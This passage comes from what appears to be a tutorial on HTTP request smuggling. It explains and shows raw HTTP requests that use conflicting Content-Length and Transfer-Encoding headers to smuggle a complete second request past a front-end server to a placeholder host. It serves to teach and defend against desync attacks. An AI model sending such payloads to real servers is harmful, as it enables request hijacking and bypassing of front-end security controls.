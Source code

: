 Since the leftover bytes don't form a request, it results in an error, causing the server to close the connection.

A complete request can be smuggled instead of just a prefix as long as you send exactly two requests in one, any subsequent requests on the connection will remain unchanged:

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n

-------------------------------------------------------------------------

GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

And the back-end sees:

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n

--------------------------------------------------------------------------------------------

GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\

--------------------------------------------------------------------------------------------

GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

When smuggling a complete request, the front-end thinks it only forwarded a single request whereas the back-end sees two distinct requests and will send two responses accordingly:

![[Desync.png]]
